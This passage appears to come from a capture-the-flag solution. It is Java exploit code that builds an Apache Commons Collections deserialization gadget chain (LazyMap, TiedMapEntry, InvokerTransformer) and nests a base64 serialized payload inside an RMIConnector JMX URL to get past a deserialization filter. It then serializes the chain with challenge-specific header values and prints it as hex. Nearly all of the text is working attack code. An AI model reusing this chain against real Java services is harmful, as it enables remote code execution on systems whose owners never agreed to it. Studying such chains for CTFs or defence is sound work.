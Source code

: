 ```bash

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, obj);


        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(obj);

        setFieldValue(lazyMap,"factory", transformer);

        return expMap;
    }
    public static String bytesTohexString(byte[] bytes) {
        //题目要求16进制
        if (bytes == null)
            return null;
        StringBuilder ret = new StringBuilder(2 * bytes.length);
        for (int i = 0; i < bytes.length; i++) {
            int b = 0xF & bytes[i] >> 4;
            ret.append("0123456789abcdef".charAt(b));
            b = 0xF & bytes[i];
            ret.append("0123456789abcdef".charAt(b));
        }
        return ret.toString();
    }

    public static void main(String[] args) throws Exception {
        //获取exp的base64编码
        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();

        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());

        //创建恶意的RMIConnector
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        //使用InvokerTransformer 调用 connect 方法
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,"factory", invokerTransformer);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeUTF("SJTU");
        oos.writeInt(1896);
        oos.writeObject(expMap);
        oos.close();
        System.out.println(bytesTohexString(baos.toByteArray()));
```